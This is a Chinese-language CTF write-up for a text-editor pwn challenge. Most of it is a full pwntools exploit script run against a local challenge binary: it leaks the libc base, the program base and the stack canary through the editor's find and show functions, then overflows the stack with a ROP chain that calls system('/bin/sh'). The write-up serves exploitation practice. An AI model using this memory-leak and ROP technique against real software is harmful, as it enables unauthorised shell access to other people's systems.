

bilibiliwold让我错过了dasctf和巅峰极客(估计去了也是被虐555)，回来之后植物大战僵尸玩累了就写了一会儿题，感觉这个题挺考验逆向的，题目并没有多难，细心就好(

刚进去连main函数都找不到(难绷，不过我们可以通过init函数找到入口


在这个函数中，我们发现可以把堆上的内容复制到栈上，然后利用find函数，就可以把我们需要的信息打出来



比如这里我们就可以泄露puts的地址，findstring就会给我们打出来，同时我们也可以利用show来打，都可以

```python
from pwn import*
p=process('./pwn1')
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
debug=0
menu="> choose:"
if debug==1:
	context.log_level='debug'
	gdb.attach(p,'b$rebase(0x2154)')
def sc(choice):
	p.recvuntil(menu)
	p.sendline(str(choice))


def open():
	sc(1)
	

def show():
	sc(2)
	

def insert(content,n,m=1):
	sc(3)
	p.recvuntil('> To insert m lines before line n, please enter n m:')
	p.sendline(str(n))
	p.sendline(str(m))
	p.recvuntil('> Please enter the content to be inserted in sequence:')
	p.sendline(content)


def delete(m=1,n=1):
	sc(4)
	p.recvuntil('> Please enter the starting line (m) and the number of lines to delete (n):')
	p.sendline(str(m))
	p.sendline(str(n))	
	
	
def find(payload):
	sc(7)
	p.recvuntil('> Please enter the string to search for:')
	p.sendline(payload)

def edit(idx,content):
	sc(6)
	p.recvuntil('modified:')
	p.sendline(str(idx))
	p.recvuntil('new content:')
	p.sendline(payload)
	
	
def save():
	sc(9)
open()

payload=payload=b'a'*0x37+b'b'+b'\xff'+b'a'*47+b'\x00'+b'a'*0x8
print(len(payload))

insert(payload,1)
find('a')
p.recvuntil('aaab')
libc_base=u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))-0x8459a
print("libc_base",hex(libc_base))
binsh=libc_base+libc.search(b'/bin/sh\x00').__next__()
system=libc_base+libc.sym['system']

p.recvuntil('> Do you want to continue searching? (y/n)')
p.sendline('n')
context.log_level='debug'
payload=b'a'*0x3f+b'b'+b'\xff'+b'a'*39+b'\x00'+b'a'*0x8
edit(1,payload)
find('a')
p.recvuntil('aaab')
p.recvuntil('aaab')
pro_base=u64(p.recv(6).ljust(8,b'\x00'))-0x2a60
print(hex(pro_base))

p.recvuntil('searching? (y/n)')
p.sendline('n')


payload=b'a'*0x67+b'b'
edit(1,payload)
show()
pop_rdi=pro_base+0x2ac3
ret=pro_base+0x101a

p.recvuntil(b'aaab')
canary=u64(p.recv(8).ljust(8,b'\x00'))-0x0a

payload=b'c'*0x68+p64(canary)+b'a'*8+p64(pop_rdi)+p64(binsh)+p64(ret)+p64(system)
edit(1,payload)
print(len(payload))

#find('c')
p.interactive()

```

